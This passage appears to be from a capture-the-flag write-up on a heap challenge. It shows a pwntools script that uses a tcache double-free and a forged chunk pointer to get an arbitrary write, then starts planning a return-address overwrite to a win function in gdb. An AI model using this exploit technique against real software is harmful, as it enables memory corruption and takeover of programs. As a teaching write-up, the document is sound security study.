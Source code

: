 ```python
choice_addr_hex = io.recvline()[:-1].decode('utf-8')
choice_addr = int(choice_addr_hex, 16)

forged_chunk = 0xdeadbeef
written_data = b'whatever'

create_note(b'whatever')
delete_note(0)
delete_note(0)
create_note(p64(forged_chunk))
create_note(b'')
create_note(written_data)
exit_program()

io.interactive()
```

So, we have achieved an arbitrary write (< 128 bytes) to any writable memory location. Now we need to leverage this to control the flow of execution.

As mentioned previously, we are given a stack leak and a win function, so overwriting the a return pointer with the win function seems like a good approach. 

First, we have to identify the offset between the choice variable we are given the location of, and a function's return address (we will target the return address of `menu_loop` here).

Lets run the program in gdb, run it, and break immediately.
![](/Assets/Pasted%20image%2020241005121502.png)

The program outputs the address of `choice` as `0x7fffffffdd8f`.
As shown by gdb, we are currently in the `__GI__libc_read` function, but we are trying to find the return pointer for the `menu_loop` stack frame. We can use the `info stack` command to list stack frames, and then `frame` to switch to inspecting the frame for `menu_loop`.

![](/Assets/Pasted%20image%2020241005121720.png)
